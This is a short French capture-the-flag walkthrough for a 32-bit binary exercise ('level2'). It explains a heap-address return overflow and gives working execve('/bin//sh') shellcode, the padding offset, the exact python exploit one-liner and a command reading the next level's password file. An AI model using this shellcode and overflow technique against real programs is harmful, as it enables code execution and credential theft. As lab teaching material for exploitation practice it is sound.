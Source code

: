 comment trouver le flag2

exactement comme le flag1 on a des gets() sauf qu'ils sont protege donc on va passer par la heap avec strdup

on va utiliser le debugger ltrace pour voir les adresses

peu importe la string rentree l'adresse de strdup reste la meme on va donc abuse de cette adresse (0x0804a008)

pour executer "/bin//sh" et ouvrir un nouveau terminal le systeme fait toute ces instructions : \x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
(21 octets)

gdb -q level2

run

on injecte des patterns, on se rend compte que l'eip pointe au 80eme octet

on va donc utiliser /bin//sh + le remplir de (80 - 21) 59 octets (avec des X) et ainsi executer sur l'adresse de strdup qui est 0x0804a008 : \x08\x04\xa0\x08

python -c "print '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + 59 * 'X' + '\x08\x04\xa0\x08'[::-1]" > /tmp/overflow

cat /tmp/overflow - | ./level2

cat /home/user/level3/.pass

on a notre flag